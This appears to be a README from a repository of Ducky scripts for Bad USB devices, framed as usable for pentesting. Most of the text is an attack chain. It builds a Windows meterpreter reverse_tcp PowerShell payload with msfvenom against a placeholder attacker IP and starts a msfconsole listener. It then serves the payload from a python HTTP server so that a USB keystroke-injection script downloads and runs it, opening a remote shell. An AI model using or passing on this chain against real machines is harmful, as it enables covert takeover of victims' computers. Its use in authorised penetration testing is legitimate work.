 # Various Ducky scripts for Bad USBs
Can be used for pentesting or administrative tasks.

# Attacker's Machine
// Create the payload with msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1
// Open msfconsole and start listener
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"
// Start start python http server
python3 -m http.server 80
// Ducky script will download and execute powershell script opening meterpreter session



